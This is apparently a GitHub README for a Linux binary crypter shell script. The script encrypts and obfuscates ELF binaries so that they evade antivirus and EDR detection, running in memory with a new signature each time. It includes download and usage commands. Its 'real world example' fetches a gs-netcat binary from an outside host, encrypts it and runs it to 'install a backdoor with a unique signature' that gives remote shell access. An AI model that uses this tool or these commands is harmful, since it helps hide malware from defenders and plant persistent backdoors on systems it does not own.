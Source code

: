 
## A Linux Binary Runtime Crypter - as a shell script (LotL)

- Obfuscates & encrypts any ELF binary _or_ `#!`-script
- AV/EDR death: Morphing + different signature every time
- 100% in-memory. No temporary files.
- Not soiling the filesystem
- Can double or triple encrypt the same binary (or itself)
- Resulting binary is heavily obfuscated (`string` only shows garbage)
- Living off the Land: Only needs /bin/sh + perl + openssl
- Architecture agnostic: Works on x86_64, aarch64, arm6, mips, ...

![exmaple](https://github.com/user-attachments/assets/c8eff8e4-f879-4017-9015-6422e03dd6ac)

Download:
```shell
curl -SsfL https://github.com/hackerschoice/bincrypter/raw/refs/heads/main/bincrypter.sh -o bincrypter.sh
chmod +x bincrypter.sh
```

Example:
```shell
cp /usr/bin/id id
./bincrypter.sh id
# Compressed: 68552 --> 24176 [35%]

./id
# uid=0(root) gid=0(root) groups=0(root)
```

Set a custom PASSWORD (optionally):
```shell
cp /usr/bin/id id
./bincrypter.sh id foobar
# Compressed: 68552 --> 23860 [34%]

./id
# Enter Password: foobar
# uid=0(root) gid=0(root) groups=0(root)
```

Real world example (install a backdoor with a unique signature):
```shell
curl -SsfL "https://gsocket.io/bin/gs-netcat_mini-linux-$(uname -m)" | PASSWORD="foobar" ./bincrypter.sh >gsnc
chmod +x gsnc
PASSWORD="foobar" GS_ARGS="-ilD -s ChangeMe" ./gsnc
```

---
Other great work:  
https://github.com/guitmz/ezuri  
https://github.com/upx/upx  



